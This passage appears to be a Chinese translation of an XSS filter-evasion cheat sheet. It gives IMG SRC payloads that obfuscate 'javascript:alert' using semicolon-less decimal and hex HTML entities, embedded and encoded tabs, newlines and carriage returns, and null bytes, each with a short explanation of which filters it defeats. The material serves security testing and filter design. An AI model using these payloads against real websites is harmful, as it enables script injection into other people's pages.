 ### 结尾没有分号的十进制 html 编码引用

他是经常有用的在绕过寻找";&#XX;"格式的 xss 过滤，因为大多数人不知道最多允许 7 位字符的编码限制。这也是有用的对那些对字符串解码像$tmp*string =~ s/.*\&#(\d+);._/$1/; ,错误的认为一个 html 编码需要用;去结束。（我是无意中发现）

```
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041> 
```

### 结尾没有分号的十六进制 html 编码引用

这也是一种实用的 xss 攻击针对上文的$tmp*string =~ s/.*\&#(\d+);._/$1/; ，错误的认为数字编码跟随在#后面（十六进制 htnl 编码并非如此），。使用 XSS [Calculator](http://ha.ckers.org/xsscalc.html) 获取更多信息。

```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29> 
```

### 内嵌 TAB

用来分开 xss 攻击代码

```
<IMG SRC="jav   ascript:alert('XSS');"> 
```

### 内嵌被编码的 TAB

用来分开 xss 攻击代码

```
<IMG SRC="jav&#x09;ascript:alert('XSS');"> 
```

### 内嵌换行符去分开 xss 代码

一些网站声称 09-13 编码的所有字符（十进制）都可以实现这种形式的攻击。这是不正确的。只有 09(tab), 10 (换行) 和 13 (回车)可以使用。查看 ascii 表为更详细的信息。下面四个 xss 例子展示了这个向量。

```
<IMG SRC="jav&#x0A;ascript:alert('XSS');"> 
```

### 编码回车符去分开 xss 代码

注意：上面我编写的三个 xss 字符串比必须的字符串更长，原因是 0 可以被省略。通常我看到的过滤器假设十六进制和十进制的编码是两到三个字符。正确的应该是一到七个字符。

```
<IMG SRC="jav&#x0D;ascript:alert('XSS');"> 
```

### 没有分割的 javascript 指令

null 字符也可以作为一个 xss 向量，但是不像上边那样。你需要直接注入它们利用一些工具例如 Burp Proxy，或是使用 %00 在你的 url 字符串里。或者如果你想写你自己的注入工具你可以使用 vim（^V^@ 会生成 null），以及用下面的程序去生成它到一个文本文件中。好吧，我再一次撒谎了。 Opera 的老版本（大约 7.11 on Windows）是脆弱的对于一个额外的字符 173（软连字符）。但是 null 字符 %00 是更加的有用或者帮助我们绕过某些真实存在的过滤器用过变动像这个例子中的。
